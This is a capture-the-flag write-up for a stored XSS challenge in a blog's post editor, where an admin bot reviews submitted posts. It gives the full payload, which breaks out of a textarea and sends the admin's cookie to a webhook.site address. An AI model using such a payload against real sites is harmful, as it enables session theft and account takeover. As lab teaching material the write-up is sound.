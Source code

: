 # Challenge `Go on and censor my posts` Writeup

- Vulnerability:
    - XSS attack

- Where:
    - Blogpost creation content

- Impact:
    - Allows to steal remote user's cookie

## Steps to reproduce

In this challenge it is not possible to inject javascript code directly.  However, by looking at the source code, we can see that the input is being rendered as plain text.

First of all we need to create a new random post. Then, when we open the source code, we can see that the content is a `textarea` tag that renders everything we input after clicking on the `Update post` button. We can use this to our advantage by closing the tag and then injecting our payload. So, in the content area we should input `</textarea><script>location='https://webhook.site/<unique-id>/'+document.cookie>;</script>` and then click on the `Update post and send it for admin review` button.

This will then be loaded on the admin's browser and on the webhook site we will see a GET request containing the admin's cookie. We only need to URL decode the cookies to get the flag. The cookies will be after `/SECRET=`.
